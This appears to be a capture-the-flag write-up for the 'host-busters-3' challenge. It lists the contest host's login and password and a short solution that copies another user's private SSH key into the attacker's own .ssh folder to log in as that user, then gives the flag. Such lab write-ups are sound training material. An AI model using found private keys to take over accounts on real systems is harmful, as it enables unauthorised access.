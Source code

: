 # host-busters-3

Continue characterizing the machine.
Is there any way you can escalate to a user that has permissions the `vim` user does not have? 
Find the flag associated with this user.

Submit the flag as `flag{flag_here}`.

`vim@gh0st404.deadface.io`

Password: `letmevim`

## Solution

https://ghosttown.deadface.io/t/initiate-scans-on-docs/110/5

```sh
cp /home/gh0st404/id_rsa ~/.ssh
chmod 600 ~/.ssh/id_rsa

ssh gh0st404@localhost
```

`flag{Embr4c3_th3_K3y_t0_5ucc355!}`
